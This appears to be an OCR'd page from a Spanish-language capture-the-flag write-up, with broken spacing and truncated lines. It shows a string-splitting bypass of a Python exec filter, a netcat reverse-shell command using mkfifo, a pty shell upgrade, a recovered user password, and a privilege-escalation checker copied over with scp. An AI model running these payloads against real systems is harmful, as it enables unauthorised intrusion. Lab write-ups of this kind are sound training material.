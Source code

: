 python dentro del mismo programa donde el comando a ejecutar se introduce a

través de una string. Esto permite dividir dicha string, burlando así el ﬁltro. Por

ejemplo, podemos usar exec para ejecutar os.system(), ejecutando así comandos

del sistema operativo.

command = " i " + "mport o" + " s ; o" + " s . system ( ’ echo Hello from the other side ! ’

una vez sabiendo la forma de ejecutar comandos del sistema operativo, pode-

mos invocar una consola inversa de netcat mediante el código

command = " i " + "mport o" + " s ; o" + " s . system ( ’ mkfifo /tmp/mwpdk ; / bin /nc 192.1

ya que nos hemos conectado, ejecutamos el siguiente comando para obtener

una versión más familiar de la consola

python3 −c ’ import pty ; pty . spawn("/ bin /bash ") ’

Una vez dentro de la consola, examinando el directorio /home, encontramos

el usuario py, el cual contiene los siguientes archivos

3



<a name="br4"></a> 

password . txt sec ret\_stuff typing typing . cc user . txt

de los cuales ninguno tiene permisos de lectura para el usuario actual (http)

. No obstante, el archivo typing es un binario con permisos de ejeución. Sigu-

iendo las indicaciones, dicho programa muestra lo siguiente

[ http@archlinux py ] $ ./ typing

Let ’ s play a game ! I f you can type the sentence below , then I ’ l l t e l l you my pass

the quick brown fox jumps over the lazy dog

the quick brown fox jumps over the lazy dog

54ezhCGaJV

Efectivamente, 54ezhCGaJV es la contraseña del usuario py. Ahora podemos

entrar haciendo uso del servidor ssh mediante el comando

ssh py@192 . 1 6 8 . 1 . 7 4

además, podemos transferir el script para checar posibles métodos de es-

calación de privilegios usando scp

scp /home/ zagorakis / linuxprivchecker . py py@192 . 1 6 8 . 1 . 7 4 : / tmp

Este script nos muestra los exploits para la versión del kernel del servidor

The following e x p l o i t s are ranked higher in probability of success because t
